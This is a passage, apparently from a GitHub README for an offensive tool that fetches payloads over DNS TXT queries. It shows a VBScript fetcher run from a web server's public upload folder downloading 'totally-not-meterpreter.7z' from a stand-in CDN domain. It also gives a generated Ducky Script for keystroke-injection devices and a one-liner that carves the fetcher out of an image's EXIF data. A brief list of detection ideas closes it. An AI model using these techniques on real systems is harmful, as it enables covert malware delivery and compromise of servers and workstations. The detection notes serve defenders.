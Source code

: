 #### Windows VBScript execution of fetcher script using `cscript`
```
C:\webapp\files\users\public_upload> cscript get-333.x.legitcdn.com.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

Retrieving file totally-not-meterpreter.7z...
> Requesting 333.crcz.x.legitcdn.com (1/4)...
Sleeping for 4...
> Requesting 333.hw1.x.legitcdn.com (2/4)...
Sleeping for 3...
> Requesting 333.remedy.x.legitcdn.com (3/4)...
Sleeping for 3...
> Requesting 333.guangzhou2.x.legitcdn.com (4/4)...
Waiting for DNS responses to finish...
Converting...
Done.

C:\webapp\files\users\public_upload> dir
totally-not-meterpreter.7z
```
#### Ducky Script

Example generated Ducky Script to be used with a HID emulation device e.g. Flipper Zero, Rubber Ducky, Teensy HID, etc
```
STRING $outfile = "beacon.7z"
ENTER
STRING $subdomain = "cdn"
ENTER
STRING $subs = @('lo')
ENTER
STRING $domain = "x.legitcdn.com"
ENTER
STRING $dnshexfile = "tmp.txt"
ENTER
STRING $jittermax = 5
ENTER
STRING $jittertime = Get-Random -Minimum 1 -Maximum $jittermax
ENTER
```

#### EXIF fetcher code extraction on Linux/UNIX

On Linux/UNIX you can extract the DNS fetcher from the EXIF data of the image if that is the only way you can get code on the target system:

```webapp@production-server:/app/upload/images$ strings -w sh-cdn.x.legitcdn.com.png | sed -n '5,50p;51q' > get.sh```

#### EXIF fetcher code extraction on Windows

On Windows you can use notepad or another application that can open a file as a text file from which you can carve the fetcher script:

![EXIF data viewable using text editor](docs/images/image_exif.png)

## Detection

Create detection rules for: 
  - Repeated TXT queries coming from workstations and servers
  - Repeated TXT queries to the same top level domain
  - Differences and uniformity of TXT query reply length 

More information:
```